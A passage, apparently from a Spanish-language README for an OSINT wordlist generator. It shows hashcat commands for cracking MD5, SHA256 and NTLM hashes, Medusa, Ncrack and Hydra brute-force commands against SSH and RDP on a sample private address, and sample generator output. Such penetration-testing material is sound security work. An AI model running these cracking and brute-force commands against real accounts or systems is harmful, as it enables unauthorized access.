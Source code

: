 ### Hashcat
```bash
# MD5
hashcat -m 0 -a 0 hash.txt wordlist_20231015_143022.txt

# SHA256
hashcat -m 1400 -a 0 hash.txt wordlist_20231015_143022.txt

# NTLM
hashcat -m 1000 -a 0 hash.txt wordlist_20231015_143022.txt
```

### Medusa
```bash
# SSH
medusa -h 192.168.1.100 -u usuario -P wordlist_20231015_143022.txt -M ssh

# RDP
medusa -h 192.168.1.100 -u admin -P wordlist_20231015_143022.txt -M rdp
```

### Ncrack
```bash
ncrack -u admin -P wordlist_20231015_143022.txt ssh://192.168.1.100
```

## 📊 Ejemplo de Salida

```
✅ WORDLIST GENERADA EXITOSAMENTE
=============================================================================
📊 Total de contraseñas únicas: 15,847
=============================================================================

📁 WORDLIST GUARDADA
=============================================================================
📄 Archivo: wordlist_20231015_143022.txt
📊 Total de contraseñas: 15,847
📏 Longitud mínima: 3 caracteres
📏 Longitud máxima: 35 caracteres
📏 Longitud promedio: 12 caracteres
=============================================================================

💡 EJEMPLO DE USO CON HERRAMIENTAS:
   hydra -l usuario -P wordlist_20231015_143022.txt ssh://192.168.1.100
   john --wordlist=wordlist_20231015_143022.txt hash.txt
   hashcat -m 0 -a 0 hash.txt wordlist_20231015_143022.txt
```

## 🎓 Mejores Prácticas para OSINT
